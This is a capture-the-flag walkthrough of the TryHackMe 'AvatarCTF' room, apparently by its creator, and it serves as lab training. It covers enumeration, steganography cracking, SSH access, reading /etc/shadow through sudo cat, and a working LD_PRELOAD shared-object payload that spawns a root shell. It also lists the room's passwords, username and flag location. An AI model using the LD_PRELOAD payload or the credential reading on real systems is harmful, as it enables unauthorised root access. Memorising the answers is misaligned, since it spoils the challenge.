


# TryHackMe AvatarCTF — Walkthrough by Aman Chauhan


**AvatarCTF** is a medium-level Capture the Flag (CTF) challenge on TryHackMe. It tests your skills in scanning, enumeration, steganography, password cracking, and privilege escalation.

**Note**: This is the first room I’ve created on TryHackMe, so I hope you enjoy solving it!

First of all deploy the machine and start nmap scan with the following command:

```bash
nmap -A -Pn -v IP
```

### Nmap Scan Results

The `nmap` scan shows two open ports:

- **Port 22 (SSH)**
- **Port 8001 (HTTP)**

Port 8001 is hosting an Apache2 web server, so let’s check it out.


The page only displays the default Apache2 welcome screen. Next, let's look at `robots.txt`.


The `robots.txt` file contains a Base64-encoded string. Decode it using:

```bash
echo "base64 string" | base64 -d
```


After decoding, it’s just a rabbit hole. Time to keep enumerating!

Start the directory using gobuster with the following command.

```bash
gobuster dir -u http://IP:8001/ -w /usr/share/wordlists/rockyou.txt
```


Using `gobuster`, we discover a `/web2` directory. Let’s explore it.


The `/web2` directory contains two files: `note.txt` and `secret.jpg`. Let’s look at each one.


The note contains a message for **“Aman”** and mentions some hidden data stored in the image file secret.jpg. Let’s check it out.


The image shows just a camera photo and nothing else. However, since the note mentions hidden data, it’s worth checking the image for any hidden information using steganography.

Downloading `secret.jpg`.

```bash
wget http://IP:8001/web2/secret.jpg
```



Use the following command to extract hidden data.

```bash
steghide --extract -sf secret.jpg
```


The `steghide` is asking for the password which we don’t have any password.

Let’s try cracking the password using `stegseek` (or `stegcracker`). Here, I’m using `stegseek` because it’s incredibly fast :)

```bash
stegseek --crack secret.jpg -wl /usr/share/wordlists/rockyou.txt --verbose
```


Using `stegseek`, we successfully crack the password, which is **"hyperspace"**. The original hidden file name was `hidden.txt` which is extracted to `secret.jpg.out`. Let’s check its contents.


As we can observe, this image file contains an MD5 hash. Now let’s try to crack it.


We crack the hash using **hashes.com** and obtain the password: **“P@ssw0rd!!1”**.
From the note, we already know the username is **Aman**, so let’s try logging in to SSH with these credentials.

• Username: `aman`
<br>
• Password: `P@ssw0rd!!1`


The SSH login fails, which means either the username or the password is incorrect.

So, we need to enumerate more.

Now looking carefully at the `hidden.txt` file, we notice some extra white spaces.


This suggests may be there is whitespace steganography been used. Let’s analyze it using the `snow.exe/stegsnow` tool.

```bash
stegsnow -C secret.jpg.out
```


Using `snow.exe/stegsnow`, we uncover the username **"amanisher"** for the target machine.

Now, let’s try logging in to the target machine using these credentials:

• Username: `amanisher`
<br>
• Password: `P@ssw0rd!!1`

```bash
ssh amanisher@IP
```


This time, SSH login is successful!!!


Once logged into the machine, we can catch the `user flag`.

And now it’s time to escalate our privileges and get the root flag.

```bash
sudo -l
```


We have sudo privileges for the amanisher user to run cat as root, so why not read the root flag directly since we’re hackers right? 😅😅


But `root.txt` is a rabbit hole for us that means the real root flag is located elsewhere in the `/root` directory.

Using `sudo cat` , we can view the passwd hash of `root` user in the `/etc/shadow` file.


Now let’s try to crack the root passwd hash with `John the Ripper`.


We attempt to crack it using `John the Ripper` , but it takes too long and doesn’t succeed.

The root hint mentions that the passwd of `root` user is impossible to crack, so we need to find another way to escalate privileges.

in the <a href="https://gtfobins.github.io" target="_blank">GTFObins</a> there is no direct way to open a root shell using sudo cat.

```bash
sudo -l
```


From the `sudo -l` output, we see that we can modify `LD_PRELOAD` environmental variables. This can be exploited to escalate privileges by creating a malicious shared object.

So, let’s create our own malicious shared object to escalate privileges by exploiting `LD_PRELOAD`

Before that take a look on the exact path of `cat` binary using `which` command, then run the following command to list all the shared objects used by `cat` binary.

```bash
ldd /bin/cat
```


The idea is to create our own malicious shared object and execute the `cat` command by tampering with the value of the `LD_PRELOAD` environment variable and redirecting it to load our malicious shared object from the `/tmp` path instead of the original `/lib/x86_64-linux-gnu/libc.so.6`.

Now, navigate to the `/tmp` directory and create a shared object using a C program:

```c
#define _GNU_SOURCE
#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
      unsetenv("LD_PRELOAD"); // Remove LD_PRELOAD to prevent other libraries from loading
      setresuid(0,0,0);       // Set user ID to 0 (root)
      system("/bin/bash -p");  // Execute shell with root privileges
}
```


This code is designed to unset an environmental variable, set the user ID to 0 (root), and open a root shell to perform actions as desired. Now, compile `preload.c` using the following command:


And as you can see our shared object has been created successfully.

Now, set the `LD_PRELOAD` env variable to load our newly created shared object and run the `cat` program with `sudo`.

```bash
sudo LD_PRELOAD=/tmp/libc.so.6 /bin/cat
```


And as you can see we successfully got the root shell.

So, if you want to learn more about exploiting sudo environmental variables to spawn a root shell then you can read my <a href="https://medium.com/@amanchauhan0047/linux-privilege-escalation-with-sudo-environmental-variables-41ed7ad72958" target="_blank">Linux Privilege Escalation with Sudo — Environmental Variables</a> blog.

Now navigate to home directory of root user and catch the `root flag`.


And this time the root flag is not in a file it’s a **directory name**.

## Conclusion
This walkthrough of the **AvatarCTF** room on TryHackMe showcased key techniques for exploiting sudo environmental variable. I hope you found this guide helpful in enhancing your skills in cyber security.

***Happy Hacking!!!***
